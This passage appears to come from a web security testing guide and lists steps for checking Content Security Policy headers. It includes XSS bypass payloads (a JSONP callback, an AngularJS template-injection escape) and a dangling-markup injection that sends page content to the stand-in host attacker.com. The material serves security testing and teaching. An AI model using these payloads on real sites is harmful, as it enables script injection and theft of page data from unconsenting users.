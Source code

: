 3. **Testing CSP Effectiveness**:
   - Header analysis
   - Policy evaluation
   - Bypass attempts
   - Report-uri monitoring

```bash
# Example: CSP bypass testing

# Step 1: Analyze CSP header
curl -I https://example.com | grep Content-Security-Policy

# Step 2: Check for unsafe directives
# Look for:
# 'unsafe-inline'
# 'unsafe-eval'
# data: URIs
# Overly permissive domains (e.g., *.googleapis.com)

# Step 3: Test for JSONP endpoints in whitelisted domains
# If script-src includes trusted.com:
# Check if https://trusted.com/jsonp?callback=alert(document.domain) works

# Step 4: Test for DOM XSS with whitelisted scripts
# If angular.js is allowed:
# Try {{constructor.constructor('alert(document.domain)')()}}

# Step 5: Test for dangling markup injection
# If CSP blocks script but not other tags:
<img src='https://attacker.com/
<script>alert(1)</script>
'>

# Step 6: Test for CSP in reporting mode
# If Content-Security-Policy-Report-Only is used:
# Exploits will still work but will be reported

# Step 7: JavaScript for testing CSP bypass
fetch('/api/get-csp-report', {
    method: 'POST',
    body: JSON.stringify({
        'csp-report': {
            'document-uri': document.location.href,
            'violated-directive': 'script-src',
            'effective-directive': 'script-src',
            'original-policy': document.querySelector('meta[http-equiv="Content-Security-Policy"]').content,
            'disposition': 'enforce',
            'blocked-uri': 'inline',
            'line-number': 1,
            'source-file': document.location.href
        }
    })
});
```
